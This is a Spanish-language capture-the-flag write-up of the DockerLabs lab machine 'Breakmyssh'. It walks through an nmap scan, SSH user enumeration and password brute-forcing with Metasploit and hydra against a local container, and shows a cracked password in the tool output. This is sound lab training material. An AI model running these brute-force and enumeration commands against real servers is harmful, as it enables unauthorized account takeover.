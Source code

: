 ```yaml
---
title: CTF-DockerLabs-Breakmyssh
published: true
---
```


## WriteUps maquina Breakmyssh de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [Romabri]

# Datos

[!INFO] Breakmyssh
>  **Nombre:** Breakmyssh
>  **SO:** Linux
>  **Dificultad:** Muy fácil
>  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
> 🚩Ingresar a la maquina como algún usuario.
> 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

```bash
└─$ sudo bash auto_deploy.sh breakmyssh.tar
```

# Reconocimiento

> Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:

```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 17:20 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000017s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

Esta maquina se pone un poco más interesante pues solo tenemos el puerto `SSH` abierto y no tenemos usuario, podría intentar enumerar usuarios, pero intentare primero usar metasploit. 

# Fuerza bruta con metasploit

> Ya que no tengo usuarios, procedo a descargar el siguiente diccionario de usuarios [GitHub - hackingyseguridad/diccionarios](https://github.com/hackingyseguridad/diccionarios) y adicional le pasare `rockyou.txt` para la contraseña.

Utilizo `ssh_login` con metasploit de la siguiente manera:

```bash
msf6 > use auxiliary/scanner/ssh/ssh_login
```

Para el diccionario de usuario, utilizo el descargado desde github.

```bash
SET USER_FILE /usr/share/wordlists/users.txt
```

Para la contraseña utilizo `rockyou.txt`

```bash
SET PASS_FILE /usr/share/wordlists/users.txt
```

Defino la IP de mi objetivo:

```bash
SET RHOSTS 172.17.0.2
```

Y luego hago un `run` o `exploit` para ejecutarlo y al cabo de un rato me encuentra las credenciales de root.

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] 172.17.0.2:22 - Starting bruteforce
[+] 172.17.0.2:22 - Success: 'root:xxxxxxxx' 'uid=0(root) gid=0(root) groups=0(root) Linux 4d678d7eed61 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64 GNU/Linux '
[*] SSH session 1 opened (172.17.0.1:43721 -> 172.17.0.2:22) at 2024-05-22 21:51:25 -0400
```

Y bueno ya con esto se puede decir que la maquina esta completa, sin embargo estando como root, chequeo para ver si existe algún usuario en el sistema, así que voy a directorio `/home` y resulta que existe el usuario: `lovely`

![pwnedBreakmyssh.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/pwnedBreakmyssh.png)

# Fuerza bruta SSH

> Ahora que se que existe el usuario `lovely` en el sistema, procedo a realizar un ataque de fuerza bruta usando `hydra` como en las otras maquinas, de la siguiente manera:

```bash
└─# hydra -l lovely -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: lovely   password: rockyou
```

Y rápidamente me encuentra la contraseña del usuario, a lo que me conecto por SSH, sin embargo queda mi duda, ¿Cómo podría haber encontrado el usuario?

# Enumerando usuarios

Creo que al principio lo que tenia que haber utilizado era: `auxiliary/scanner/ssh/ssh_enumusers` y definir los siguientes parametros:

```bash
SET RHOSTS 172.17.0.2
SET USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

Y el resultado fue el siguiente:

```bash
msf6 auxiliary(scanner/ssh/ssh_enumusers) > exploit

[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
[+] 172.17.0.2:22 - SSH - User 'backup' found
[+] 172.17.0.2:22 - SSH - User 'daemon' found
[+] 172.17.0.2:22 - SSH - User 'proxy' found
[+] 172.17.0.2:22 - SSH - User 'list' found
[*] Auxiliary module execution completed
```

Y el resultado confirma mi sospecha, lo primero era enumerar usuarios, el resultado luego de mostrarme algunos usuarios del sistema, también me muestra `lovely` entonces el procedimiento ideal seria, enumerar los usuarios, y luego lanzar un hydra o en todo caso un metasploit y listo, objetivo conseguido.

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
> `sudo bash auto_deploy.sh vacaciones.tar`
> `nmap 172.17.0.2`
> `msfconsole`
> `use auxiliary/scanner/ssh/ssh_login`
> `SET USER_FILE /usr/share/wordlists/users.txt`
> `SET PASS_FILE /usr/share/wordlists/users.txt`
> `SET RHOSTS 172.17.0.2`
> `hydra -l lovely -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh`
> `use auxiliary/scanner/ssh/ssh_enumusers`
> `SET USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt`



```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |